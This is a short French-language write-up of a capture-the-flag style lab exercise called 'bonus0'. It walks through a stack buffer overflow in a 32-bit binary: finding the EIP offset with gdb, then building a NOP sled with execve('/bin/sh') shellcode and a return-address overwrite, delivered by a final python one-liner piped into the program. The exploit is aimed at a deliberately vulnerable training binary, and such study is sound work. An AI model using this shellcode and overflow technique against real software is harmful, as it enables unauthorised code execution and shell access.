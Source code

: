 # bonus0

# en analysant ce que l'ont voit grace au fichier source créé, c'est que p() lit 2x 4096 caractères 2x a partir de l'entrée, même si ils sont tronquéa 20 ou a une fin de ligne, le buffer dans main de 42 n'est pas protegé, nous allons donc pouvoir faire du buffer overflow

# le buffer devrait ressembler var1 + var2 (strcpy dans p()) + var1 (strcpy dans pp()) + " " donc 61 caractère au max dans le buffer de 42 donc 19 pour ecrire sur eip

# dans un premier temps il nous faut l'offset 

(https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

var1
Aa0Aa1Aa2Aa3Aa4Aa5Aa
var2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

(gdb) run

0x41336141 -> offest 9 

# créons nos variables pour overflow:

var1 -> \x90" * 1000 (pour dépasser les 61 octets) + shellcode = \x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80

# ensuite il nous faut une adresse dans les x90 

(gdb) disas p
(gdb) b *p+28 (on s'arrete a l'allocation des 4096)
(gdb) x $ebp-1008
0xbfffe680:	0x00000000

# maintenant il faut avancé dans cette adresse 0xbfffe680 + 100 par exemple = 0xbfffe6e4 et on peut créé notre var2 qui doit faire 20 caractère pour ne pas dépasser et ne pas avoir de fin de ligne et passer les 9 d'offset

"A" * 9 + "\xe4\xe6\xff\xbf" + "B" * 7'

(python -c 'print "\x90" * 1000 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"'; python -c 'print "\x90" * 9 + "\xe4\xe6\xff\xbf" + "\x90" * 7'; cat) | ./bonus0